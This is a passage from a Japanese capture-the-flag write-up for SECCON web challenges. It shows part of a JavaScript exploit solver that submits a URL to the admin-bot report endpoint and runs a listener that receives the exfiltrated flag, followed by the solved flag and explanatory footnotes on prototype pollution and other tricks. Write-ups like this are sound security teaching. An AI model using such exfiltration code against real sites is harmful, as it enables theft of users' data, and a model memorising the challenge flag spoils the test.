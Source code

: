 ```javascript
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;

    // Print a flag
    console.log("S" + text);
    // -> SECCON{real_flag} SECCON{REDACTED}">

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();

      await sleep(5000);
      console.log("Failed");
      process.exit(1);
    }
  );
};
start();
```

### Flag

```
SECCON{w0w_yoU_div3d_deeeeeep_iNto_DOMPurify}
```

## [web] denobox


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。